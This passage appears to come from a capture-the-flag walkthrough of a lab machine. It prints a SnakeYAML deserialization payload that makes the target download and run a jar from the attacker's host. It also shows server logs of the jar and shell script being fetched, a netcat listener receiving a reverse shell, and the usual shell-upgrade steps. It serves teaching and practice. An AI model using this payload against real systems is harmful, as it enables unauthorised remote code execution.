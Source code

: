 

The payload is:



    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.7/rev.jar"]
      ]]
    ]



There's three requests at the Python HTTP server, two for the Jar, and
then for the shell:



    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /rev.jar HTTP/1.1" 200 -
    10.10.10.227 - - [15/Feb/2021 09:19:52] "GET /shell.sh HTTP/1.1" 200 -



Then there's a shell at listening `nc`:



    oxdf@parrot$ sudo nc -lnvp 443                  
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.227] 37728
    bash: cannot set terminal process group (730): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@ophiuchi:/$ id
    uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)



I'll upgrade my shell with the standard Python trick:



    tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    tomcat@ophiuchi:/$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo ; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@ophiuchi:/$ 



## Shell as admin

There's one real user on the box, admin, and their home directory has
`user.txt`, but I can't read it as tomcat:


